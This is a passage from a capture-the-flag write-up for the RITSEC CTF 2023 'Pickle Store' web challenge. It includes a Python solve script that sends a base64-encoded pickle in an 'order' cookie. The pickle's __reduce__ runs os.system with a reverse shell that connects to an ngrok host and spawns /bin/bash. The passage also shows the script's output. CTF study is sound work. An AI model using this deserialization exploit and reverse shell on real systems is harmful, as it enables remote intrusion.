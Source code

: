 ```py
    cookie = {
        'order': pickledPayload
    }

    print('[*] Request result:')
    orderRequestResult = requests.get(URL, cookies=cookie)
    print(orderRequestResult.text)

if __name__ == '__main__':
    main()
```

```shell
┌[siunam♥earth]-(~/ctf/RITSEC-CTF-2023/Web/Pickle-Store)-[2023.04.02|12:48:25(HKT)]
└> python3 solve.py
[*] Payload: gASVHgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjANpZCCUhZRSlC4=
[*] Request result:
<!DOCTYPE html>
<head>
  <title>Pickle Store</title>
  <link rel="stylesheet" href="/static/style.css">
</head>
<body>
  <h1>Here's your order!</h1>
  <h2>0</h2>
  <a class='button' href='/'>New Order</a>
</body>
```

Umm... `0`??

It seems like the `/order` doesn't reflect (display) our payload's result...

Hmm... Let's get a shell then.

**After some trial and error, the Python3 reverse shell worked:** (From [revshells.com](https://www.revshells.com/))
```py
#!/usr/bin/env python3
import pickle, os, base64
import requests

class RCE(object):
    def __reduce__(self):
        return (os.system,('''python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("0.tcp.ap.ngrok.io",11713));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")' ''',))

def main():
    pickledPayload = base64.b64encode(pickle.dumps(RCE())).decode()
    print(f'[*] Payload: {pickledPayload}')

    URL = 'https://pickles-web.challenges.ctf.ritsec.club/order'
    cookie = {
        'order': pickledPayload
    }

    print('[*] Request result:')
    orderRequestResult = requests.get(URL, cookies=cookie)
    print(orderRequestResult.text)

if __name__ == '__main__':
    main()
```
